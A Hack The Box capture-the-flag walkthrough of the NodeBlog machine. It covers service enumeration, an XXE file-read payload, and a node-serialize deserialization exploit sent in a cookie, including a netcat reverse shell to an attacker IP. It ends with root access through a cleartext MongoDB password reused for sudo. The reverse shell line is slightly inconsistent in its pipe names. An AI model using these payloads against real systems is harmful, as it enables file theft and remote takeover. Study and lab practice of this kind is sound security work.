



# Hack The Box Walkthrough - NodeBlog



This is an easy machine where you abuse a Node.js application in two stages. First, you use an XXE issue to read files on the server, then you get remote code execution through unsafe deserialization. Once you have a shell, privilege escalation is straightforward.

## Enumeration

I started by scanning the target to identify exposed services.

```bash
rustscan -a target.htb -- -A -Pn | tee rust.txt
```

The scan returned two open ports:

```text
Open 10.129.96.160:22
Open 10.129.96.160:5000
```

A follow-up Nmap scan confirmed that SSH was available on port 22 and that port 5000 was running a Node.js application built with Express.

```text
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
5000/tcp open  http    syn-ack Node.js (Express middleware)
|_http-title: Blog
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
```

## Web Enumeration

I opened the site in Firefox and saw a simple blog with one article and a login form.



I ran `feroxbuster` to look for hidden content.

```bash
feroxbuster -u http://target.htb:5000 -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

The scan found only the main page and the login route:

```text
200      GET       47l      133w     1891c [http://target.htb:5000/]
200      GET       28l       59w     1002c [http://target.htb:5000/Login]
200      GET       28l       59w     1002c [http://target.htb:5000/login]
```

The login form behaved differently depending on the username. `admin` returned **Invalid Password**, while random usernames returned **Invalid Username**. That confirmed the presence of a valid `admin` account, so I tried brute forcing the password with Hydra, but that did not succeed.

## Hidden Routes

The article’s **Read More** button led to `/articles/uhc-qualifiers`, which made me check the `/articles` directory as well.

```bash
feroxbuster -u http://target.htb:5000/articles -w /usr/share/seclists/Discovery/Web-Content/common.txt -C 302 -C 404
```

That revealed two additional routes:

```text
200      GET       33l       73w     1234c [http://target.htb:5000/articles/new]
200      GET       21l       40w      713c [http://target.htb:5000/articles/test]
```

`/articles/test` was just another article, but `/articles/new` allowed creation of new posts.



## XXE File Read

After testing some XSS ideas without success, I looked at the page source and found JavaScript that submitted a form to `/articles/xml`.

```html
<script language="JavaScript"><!--
    function myFunction() {
        document.getElementById("uploadxml").click()
    }
    function DialogClose() {
        document.getElementById("uploadform").action = "/articles/xml"
        document.getElementById("uploadform").onsubmit = ""
        document.getElementById("uploadform").submit()
    }
//--></script>
```

The UI did not expose this form directly, so I sent the request manually in Burp. The server responded with the XML format it expected:

```text
Invalid XML Example: <post><title>Example Post</title><description>Example Description</description><markdown>Example Markdown</markdown></post>
```

I then submitted a multipart form with a `file` field containing a small XML document. That worked and returned an edit page for the new article.

Next, I tested XXE by loading `/etc/passwd` through an external entity.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<post><title>aaa Post</title><description>Example Description</description><markdown>&file;</markdown></post>
```

The contents of `/etc/passwd` were reflected in the markdown field, confirming file read via XXE.

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
admin:x:1000:1000:admin:/home/admin:/bin/bash
```

I tried several useful paths, including the user’s home directory and SSH key locations, but nothing interesting showed up there. After seeing a stack trace from a failed request, I learned the application path was `/opt/blog`.

I then used XXE again to read `/opt/blog/server.js`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///opt/blog/server.js">
]>
<post><title>aaa Post</title><description>Example Description</description><markdown>&file;</markdown></post>
```

This returned the full Express application source code.

## Unsafe Deserialization

Reading `server.js` exposed two important details:

```javascript
const cookie_secret = "UHC-SecretCookie"
```

and:

```javascript
c = serialize.unserialize(c)
```

That meant the `auth` cookie was being unserialized directly, which is a strong indicator of code execution.

I built a small proof-of-concept https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/ payload using `node-serialize` and confirmed that a serialized function could execute commands when deserialized.

```javascript
var y = {
rce : function(){require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

At first, the payload did not behave correctly on the target, so I reproduced the logic locally and simplified the test case. That made it clear that the semicolon in the payload was causing the issue.

A working cookie looked like this:

```http
Cookie: auth={"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) })}()"}
```
you need to url encode the payload first. 

When I sent that request, the server processed the payload and the command output appeared.

## Foothold

With the deserialization working, I switched the payload from `ls` to a reverse shell.

```http
Cookie: auth={"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('mkfifo /tmp/kirxhbg && nc Attacker-IP 2121 0</tmp/Shell | /bin/sh >/tmp/kirxhbg 2>&1 && rm /tmp/kirxhbg', function(error, stdout, stderr) { console.log(stderr) })}()"}
```

url encode the payload

I caught the callback with Netcat and got a shell as `admin`.

```text
whoami
admin
```

I tried to read the user flag, but the home directory permissions prevented direct access:

```text
admin@nodeblog:/opt/blog$ ls -l /home/admin/
ls: cannot access '/home/admin/user.txt': Permission denied
total 0
-????????? ? ? ? ?            ? user.txt
```

## Privilege Escalation

Since `sudo -l` required a password, I turned to the MongoDB instance the application used. The `server.js` file showed the app connecting to a local database:

```javascript
mongoose.connect('mongodb://localhost/blog')
```
i also check the : 

```bash 
netstat -tnlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:27017         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::5000                 :::*                    LISTEN      849/node /opt/blog/ 
```

I opened the Mongo shell and inspected the databases.

```text
> show dbs
admin   0.000GB
blog    0.000GB
config  0.000GB
local   0.000GB
```

Inside the `blog` database, I found a `users` collection containing the `admin` account in cleartext.

```text
> use blog
switched to db blog

> show collections
articles
users

> db.users.find()
{ "_id" : ObjectId("61b7380ae5814df6030d2373"), "createdAt" : ISODate("2021-12-13T12:09:46.009Z"), "username" : "admin", "password" : "IppsecSaysPleaseSubscribe", "__v" : 0 }
```

I reused that password for `sudo`, and it worked.

```text
admin@nodeblog:/opt/blog$ sudo -l
[sudo] password for admin:
Matching Defaults entries for admin on nodeblog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User admin may run the following commands on nodeblog:
    (ALL) ALL
    (ALL : ALL) ALL
```

That meant `admin` could run any command as any user, including root. I simply switched to a root shell and read both flags.

```bash
sudo su -
```

```text
root@nodeblog:~# cat /home/admin/user.txt
REDACTED

root@nodeblog:~# cat /root/root.txt
REDACTED
```

## Attack Path

- Enumerate the target and identify SSH and a Node.js web app on port 5000.
- Discover hidden routes under `/articles`.
- Use XXE on `/articles/xml` to read local files.
- Read `/opt/blog/server.js` and identify unsafe cookie deserialization.
- Exploit `node-serialize` to get remote code execution as `admin`.
- Extract the MongoDB password from the `users` collection.
- Use the password for `sudo` and become root.

